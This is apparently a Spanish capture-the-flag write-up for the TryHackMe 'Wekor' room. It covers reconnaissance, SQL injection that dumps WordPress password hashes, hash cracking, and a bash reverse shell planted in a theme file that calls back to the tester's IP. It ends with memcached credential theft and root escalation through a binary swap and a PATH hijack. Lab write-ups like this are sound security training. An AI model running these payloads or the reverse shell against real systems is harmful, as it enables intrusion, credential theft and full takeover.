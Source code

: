 ```yaml
---
title: "wekorra"
description: "wekorra"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/wekorra

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.236.132
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531155032.png)

## Reconocimiento de servicios

````
nmap -sCV -p22,80 10.10.236.132
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531155118.png)

## Fuzzing

En /robots.txt
Encontramos haciendo búsquedas una web en /it-next

````
wfuzz -c -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t30 --hw 3 -H "Host:FUZZ.wekor.thm" "http://wekor.thm/"
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531161205.png)![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531161311.png)

````
gobuster dir -u http://site.wekor.thm -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531161517.png)

# Fase de ataque

## SQLI

El cupon es vulnerable a SQLI
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531162432.png)
Encontramos la cantidad de 3 columnas

````
' order by 3-- -
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531162903.png)
Ver bases de datos

````
' union select 1,2,group_concat(schema_name) from information_schema.schemata-- -
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531163111.png)Buscamos credenciales del wordpress
Ver las tablas de una BBDD

````
' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='wordpress'-- -
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531163616.png)
Ver las columnas de un tabla

````
' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='wordpress' and table_name='wp_users'-- -
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531163726.png)
Ver contenido de las columnas

````
' union select 1,2,group_concat(user_login,user_pass,display_name) from wordpress.wp_users-- -
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531164924.png)

## Crack Hash

````
hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531165719.png)

## Wordpress

Logging con wp_yura

## Reverse Shell

Editamos el Tema 404.php e insertamos una reverse shell

````
system("bash -c 'bash -i >& /dev/tcp/10.9.2.28/443 0>&1'");
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531190415.png)
Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

\[-\] ==pwned!==

## Ajustar terminal

````
script /dev/null -c bash
````

ctrl + z

````
stty raw -echo; fg
````

````
	reset xterm
````

````
export TERM=xterm
````

Ajustar proporciones

````
stty rows 44 columns 184
````

# Privilege Escalation

## Enumerar

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531191237.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531191825.png)

## memcached service vulnerability

Ver credenciales

````
telnet 127.0.0.1 11211
OrkAiSC00L24/7$
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531192518.png)
Iniciar sesión
\[-\] ==pwned!==

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531193314.png)

````
sudo -u root /home/Orka/Desktop/bitcoin
````

Mira
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531194920.png)

## Primer método

Hacemos que ejecute el /bin/bash

````
mv Desktop old
mkdir Desktop
cp /bin/bash ./Desktop/bitcoin
sudo -u root /home/Orka/Desktop/bitcoin
````

\[+\] ==pwned!==

## Segundo método

Usamos la herramienta de ingeniería reversa llamada Ghidra

## Ghidra

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531214950.png)
Encontramos la contraseña y vemos que ejecuta python sin ruta absoluta
Modificamos para que ejecute el Python en un archivo malicioso.

1. Creamos un archivo llamado python en /tmp

````
#!/bin/bash
/bin/bash
````

2. Le damos permiso

````
chmod 777 python
````

3. Lo exportamos al PATH

````
export PATH=/tmp:$PATH
````

4. Ejecutamos

````
sudo -u root /home/Orka/Desktop/bitcoin
````

\[+\] ==pwned!==

